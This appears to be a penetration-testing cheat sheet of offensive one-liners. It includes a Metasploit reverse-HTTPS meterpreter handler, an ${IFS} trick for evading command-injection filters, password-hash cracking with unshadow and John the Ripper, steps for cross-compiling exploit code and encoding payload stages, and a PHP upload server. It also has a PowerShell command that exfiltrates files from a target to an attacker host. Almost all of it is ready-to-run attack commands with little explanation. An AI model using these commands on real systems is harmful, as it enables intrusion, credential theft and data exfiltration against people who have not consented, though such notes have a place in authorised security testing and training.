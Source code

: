 # Replace Whitespaces in Bash command
Often whitespaces break the http request, but you can use the variable `${IFS}` instead.
Example: Instead of `curl http://localhost`, try `curl${IFS}http://localhost`

# msfconsole one-liner
```
sudo msfconsole -q -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_https; set LHOST 10.10.10.10; set LPORT 3141; exploit"
```

# Command Line Inventory/Launcher (arsenal)
* see https://github.com/Orange-Cyberdefense/arsenal

# Bad Characters
```
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```
# Windows Ping Scan One-Liner
```
for /L %i in (1,1,255) do @ping -n 1 -w 200 10.10.11.%i > nul && echo 10.10.11.%i is up.
```

# Generate Shellcode from file
```
xxd -p lib.so | tr -d '\n' > lib.hex
# add '0x' before shellcode
```

# unshadow passwd file
```
unshadow passwd-file.txt shadow-file.txt
unshadow passwd-file.txt shadow-file.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```

# Metasploit 
## multi handler
In case you got a Reverse Shell but the session immediately dies, try to migrate to another process with:
```
set AutoRunScript post/windows/manage/migrate
```

# Cross-Compiling Exploit Code
```
sudo apt install mingw-w64
i686-w64-mingw32-gcc 42341.c -o exploit.exe # In case of errors try -lws2_32 flag
```

# Run Windows Binary on Linux
```
wine PE.exe
```

# Render webpages from command line
* cutycapt: http://cutycapt.sourceforge.net/

# Create simple Upload Web Server
1. create /var/www/uploads folder and set owner to www-data
2. create /var/www/html/upload.php with following content
```
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $\_FILES['file']['name'];

move_uploaded_file($\_FILES['file']['tmp_name'], $uploadfile)
?>
```
3. Start apache2 server
4. Upload files from target to webserver. Example with powershell
```
powershell -c "iex(new-object system.net.webclient).uploadfile('http://192.168.1.13/upload.php', 'filename')"
```

# Metasploit
Encrypt and encode
```
msf5 exploit(multi/handler) > set EnableStageEncoding true
msf5 exploit(multi/handler) > set StageEncoder x64/zutto_dekiru
```

# Webshell (PHP)
* see weevely: https://github.com/epinna/weevely3
